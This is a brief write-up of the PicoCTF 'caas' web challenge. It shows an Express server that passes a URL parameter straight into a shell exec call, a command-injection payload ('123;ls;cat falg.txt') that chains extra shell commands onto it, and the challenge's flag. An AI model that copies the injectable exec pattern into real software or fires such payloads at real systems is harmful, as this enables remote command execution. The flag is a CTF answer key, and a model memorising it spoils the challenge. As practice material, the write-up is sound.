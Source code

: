 ```yaml
---
title: PicoCTF - caas
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - caas
<!-- more -->
###### tags: `PicoCTF` `CTF` `Web`

## Background
[Command Injection](https://lab.feifei.tw/practice/ci/l1.php)

## Source code
```javascript=
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});

```

## Recon
直覺是command injection

## Exploit - Easy Command Injection
Payload: `/cowsay/123;ls;cat falg.txt`
Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`

## Reference
[ CaaS | Web Category | PicoCTF | CTF For beginners ](https://youtu.be/ZP3kLVaMQIE)